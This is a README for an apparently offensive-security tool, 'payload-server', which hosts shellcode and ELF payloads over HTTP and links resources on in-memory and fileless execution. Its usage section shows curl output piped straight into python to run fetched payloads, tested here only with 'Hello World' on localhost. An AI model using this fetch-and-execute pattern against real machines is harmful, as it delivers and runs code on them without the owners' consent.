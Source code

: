 # payload-server

Serve your payloads over http

## Getting started

### Development setup

Setup the venv and install requirements.

```sh
python -m venv ./venv
. ./venv/bin/activate
```

### Run the server from venv

Add some payloads to the `shellcode` and `elf` directories. Start the server.

```sh
gunicorn --bind 127.0.0.1:5000 payload-server:app
```

### Run the server with docker

Run this to build the docker container and start the server.

```sh
docker-compose up --build
```

### Run the server with podman

```sh
podman build --tag localhost/payload-server:latest .
podman run -dt -p 5000:5000 --volume $PWD/templates/:/app/templates:ro --volume $PWD/elf:/app/elf:ro --volume $PWD/shellcode:/app/shellcode:ro --volume $PWD/python:/app/python:ro localhost/payload-server:latest
```

#### Run with podman kube file

Update the `payload-server_kube.yml` file with the full path to your volume directories. Then run the following to run the pod.

```sh
podman play kube payload-server_kube.yml
```

### Use the payloads

Pull down a payload with `curl` and execute it on a machine. They should work with both python2 and python3.

```sh
$ curl -s localhost:5000/sc/hello | python3
Hello, World!

$ curl -s localhost:5000/elf/hello | python3
Hello World
$ curl -s localhost:5000/sc/hello | python2
Hello, World!

$ curl -s localhost:5000/elf/hello | python2
Hello World
```

## Resources

* [Execute shellcode using ctypes](https://github.com/thomaskeck/PyShellCode)
* [In-memory ELF execution](https://github.com/nnsee/fileless-elf-exec)
